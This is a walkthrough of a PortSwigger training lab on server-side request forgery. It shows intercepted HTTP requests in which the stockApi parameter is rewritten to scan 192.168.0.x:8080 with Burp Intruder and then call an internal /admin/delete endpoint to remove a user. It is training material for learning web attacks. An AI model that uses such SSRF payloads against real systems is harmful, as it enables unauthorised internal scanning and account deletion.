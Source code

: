 #  Basic SSRF against another back-end system

Link: https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos. 

### solution

- start the lab and remember the objective is to open `/admin` and delete the user carlos
- if u try going to `/admin` endpoint, you will n't get the result as u can't access it directly.
- so let's go to products and click check stock as challange describtion said
- intercept this request
```
POST /product/stock HTTP/1.1
Host: 0aa4001c041a5c3f81caca2000520096.web-security-academy.net
Cookie: session=2Gw97cnP5g3C7q7rHceYJzb6gt78siRj
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa4001c041a5c3f81caca2000520096.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0aa4001c041a5c3f81caca2000520096.web-security-academy.net
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```
- notice that stockApi parameter has a url as a value, so let's try to change it to `http://192.168.0.x:8080/admin` as said in describtion.
- we don't know the value of x so we will send the request to the intruder for brute forcing to be like this
```
POST /product/stock HTTP/1.1
Host: 0aa4001c041a5c3f81caca2000520096.web-security-academy.net
Cookie: session=2Gw97cnP5g3C7q7rHceYJzb6gt78siRj
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa4001c041a5c3f81caca2000520096.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0aa4001c041a5c3f81caca2000520096.web-security-academy.net
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

stockApi=http://192.168.0.§x§:8080/admin
```
- notice that x is between two of § character, as it's parameter of the brute force
- to choose the values of it we will go to `payloads` tab
- change payload type to `numbers` and make it ranges from 0 to 255 with step 1
- start the attack and wait until you see a request with status 302
- when you find it this means that this is the suitable ip
- back to the repeater and use it with changing the value of the stockApi to: `/admin/delete?username=carlos`
- carlos is deleted
- congratzzzzzzzzzzzzzzzzzzzzz